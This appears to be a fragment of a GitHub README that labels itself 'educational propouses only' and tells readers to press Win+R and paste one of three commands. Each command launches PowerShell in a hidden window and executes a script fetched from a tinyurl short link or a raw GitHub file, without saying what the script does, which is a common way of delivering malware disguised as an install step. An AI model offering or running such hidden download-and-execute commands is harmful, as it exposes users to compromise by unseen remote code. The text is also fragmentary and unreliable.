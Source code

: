 educational propouses only.

For install:
Win + R and paste this:

option 1: (Fast)
```powershell -w hidden "iex(iwr tinyurl.com/4uzjfrjd -UseB)"```

option 2:
```powershell -w hidden "iex(iwr https://raw.githubusercontent.com/MRvinyKing/pythonwgetfilestest/main/z.ps1 -UseB)"``` 
(raw)

```powershell -w hidden "iex(iwr https://tinyurl.com/36rkw6p3 -UseB)"``` perspective
